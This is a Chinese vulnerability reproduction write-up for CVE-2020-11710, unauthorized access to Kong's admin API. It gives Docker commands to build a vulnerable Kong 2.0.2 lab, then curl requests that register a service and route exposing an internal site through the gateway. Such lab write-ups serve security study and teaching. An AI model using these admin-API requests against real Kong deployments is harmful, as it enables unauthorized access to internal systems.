




# Kong未授权访问漏洞

## 漏洞描述


Kong未授权访问漏洞（CVE-2020-11710）是指在Kong API网关系统中存在未授权访问漏洞，攻击者可以利用该漏洞获取或修改管理员凭证、读取任意文件以及远程执行任意代码。该漏洞由于Kong API网关系统未对请求进行严格验证导致。

## 影响版本


Kong < V2.0.3

## 环境搭建

创建Docker网络

```
[root@localhost ~]# docker network create kong-net
8c13241e04425db93e67c0c69c1adb7ca8adcb2701d67b43f2c20f4e76b9d613
```

拉取并启动PostgreSQL容器

```
docker run -d  --network=kong-net  -p 5432:5432 -e "POSTGRES_USER=kong"   -e "POSTGRES_DB=kong"  -e "POSTGRES_PASSWORD=kong"  postgres:9.6
```

数据库安装后，可进入postgres容器，创建kong用户及数据库kong

```
docker exec -it container_id /bin/bash
#切换用户
su postgres
#进入命令
psql;
#创建用户kong及密码
create user kong with password 'kong';
#创建数据库kong
create database kong owner kong;
#查看创建后的数据库(可省)
\l
```

初始化数据库

```
docker run --rm \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_USER=kong" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     kong:2.0.2 kong migrations bootstrap
```

启动kong

```
docker run -it  \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" \
     -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" \
     -e "KONG_PROXY_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" \
     -p 8000:8000 \
     -p 8443:8443 \
     -p 8001:8001 \
     -p 8444:8444 \
     kong:2.0.2
```


## 漏洞利用

访问http://192.168.32.130:8000



利用 Admin Restful API ，在Kong Gateway上注册一个新的"服务"(web API) 指向内网的敏感站点 http://192.168.32.130:8000

```sh
$ curl -i -X POST http://127.0.0.1:8001/services --data name=target --data url='http://192.168.32.130:8000'
```



添加一个路由，`paths[]`的值为 `/site1`，name的值为 `111111`

```
curl -i -X POST http://127.0.0.1:8001/services/target/routes  --data 'paths[]=/site1' --data 'name=111111'
```



